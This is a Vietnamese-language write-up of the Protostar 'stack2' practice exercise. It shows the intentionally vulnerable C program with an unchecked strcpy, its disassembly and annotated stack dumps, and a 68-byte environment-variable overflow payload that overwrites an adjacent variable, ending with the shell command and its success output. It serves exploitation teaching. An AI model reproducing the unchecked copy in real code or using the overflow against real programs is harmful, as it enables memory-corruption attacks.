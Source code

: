 ```yaml
---
layout: post
title: stack2
---
```

stack2 cũng tương tự như stack0 và stack1.
Trong bài này, chúng ta tiếp tục sử dụng phương thức lưu đè vùng bộ nhớ của biến khác bằng hàm `strcpy`.
Source code của stack2 như sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Khi disassemble hàm `main`, ta được đoạn chương trình sau:
```asm
0x08048494 <main+0>:    push   ebp
0x08048495 <main+1>:    mov    ebp,esp
0x08048497 <main+3>:    and    esp,0xfffffff0
0x0804849a <main+6>:    sub    esp,0x60
0x0804849d <main+9>:    mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
0x080484a9 <main+21>:   mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:   cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:   jne    0x80484c8 <main+52>
0x080484b4 <main+32>:   mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:   mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:   call   0x80483bc <errx@plt>
0x080484c8 <main+52>:   mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:   mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:   lea    eax,[esp+0x18]
0x080484dc <main+72>:   mov    DWORD PTR [esp],eax
0x080484df <main+75>:   call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:   mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:   cmp    eax,0xd0a0d0a
0x080484ed <main+89>:   jne    0x80484fd <main+105>
0x080484ef <main+91>:   mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:   call   0x80483cc <puts@plt>
0x080484fb <main+103>:  jmp    0x8048512 <main+126>
0x080484fd <main+105>:  mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:  mov    eax,0x8048641
0x08048506 <main+114>:  mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:  mov    DWORD PTR [esp],eax
0x0804850d <main+121>:  call   0x80483ac <printf@plt>
0x08048512 <main+126>:  leave
0x08048513 <main+127>:  ret
```

Biến `variable` lấy giá trị của environment variable có tên `"GREENIE"`.
Sau đó, giá trị này được copy sang cho `buffer` qua hàm `strcpy`.
Rõ ràng, tương tự như 2 bài trước, nếu giá trị của `variable` lớn hơn 64 byte thì khi copy sang `buffer` sẽ bị tràn sang vùng nhớ của biến khác.
Cụ thể, biến `modified` chiếm 4 byte, bắt đầu từ `esp + 0x58`, còn biến `buffer` chiếm 64 byte bộ nhớ từ `esp + 0x18` đến `esp + 0x57`.
`variable` được lưu bắt đầu từ địa chỉ `esp + 0x5c`. Lưu ý, `variable` có dạng pointer, nên giá trị dùng để copy sang `buffer` thật sự nằm ở vùng nhớ có địa chỉ lưu trong `variable`.

Để dễ tưởng tượng, sau đây là 96 byte bộ nhớ bắt đầu từ địa chỉ `esp`, trước khi `variable` nhận giá trị từ environment variable.
Trong ví dụ này, environment variable có giá trị là `"hello"`, tương đương với chuỗi byte `0x68` `0x65` `0x6c` `0x6c` `0x6f`.
Phân biệt theo màu: <span style="color:aqua">buffer</span>, <span style="color:orangered">modified</span>, và <span style="color:yellow">modified</span>.
<pre>
0xbffff730:     0x080485e0      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff740:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0x08048358</span>
0xbffff760:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff798</span>      <span style="color:aqua">0x08048549</span>
0xbffff770:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048530</span>      <span style="color:aqua">0xbffff798</span>
0xbffff780:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:orangered">0x00000000</span>      <span style="color:yellow">0xbffff9ec</span>
...
<span style="color:yellow">0xbffff9ec</span>:      "hello"
</pre>

<pre>
0xbffff730:     0xbffff748      0xbffff9ec      0xb7fff8f8      0xb7f0186e
0xbffff740:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0x6c6c6568</span>      <span style="color:aqua">0xb7ea006f</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0x08048358</span>
0xbffff760:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff798</span>      <span style="color:aqua">0x08048549</span>
0xbffff770:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048530</span>      <span style="color:aqua">0xbffff798</span>
0xbffff780:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:orangered">0x00000000</span>      <span style="color:yellow">0xbffff9ec</span>
...
<span style="color:yellow">0xbffff9ec</span>:     0x6c6c6568      0x4f4c006f      0x4d414e47      0x73753d45
</pre>

Để exploit được chương trình, ta sẽ gán 68 byte giá trị cho environment variable `"GREENIE"` là `"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d"`.
Giá trị của `modified` sẽ được sửa thành `0x0d0a0d0a`.
Sau đây là bộ nhớ sau `strcpy`.
(`esp` có thể thay đổi tùy theo environment variable `"GREENIE"` thay đổi, nhưng các offset từ `esp` để tìm ra đúng biến thì giữ nguyên.)

<pre>
0xbffff6f0:     0xbffff708      0xbffff9ad      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0x41414141</span>      <span style="color:aqua">0x42424242</span>
0xbffff710:     <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>      <span style="color:aqua">0x46464646</span>
0xbffff720:     <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>      <span style="color:aqua">0x32323232</span>
0xbffff730:     <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>      <span style="color:aqua">0x36363636</span>
0xbffff740:     <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x0d0a0d0a</span>      <span style="color:yellow">0xbffff9</span>00
...
<span style="color:yellow">0xbffff9ad</span>:      "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\n\r\n\r"
</pre>

Cũng lưu ý thêm, biến `variable` có 1 byte đầu tiên bị ảnh hưởng do chuỗi nhập vào là kiểu null-terminated.
Giá trị mong đợi của nó là `0xbffff9ad`, thay vì `0xbffff900`.

## Ref
```bash
user@protostar:~$ export GREENIE=$'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d'
user@protostar:~$ stack2
you have correctly modified the variable
```
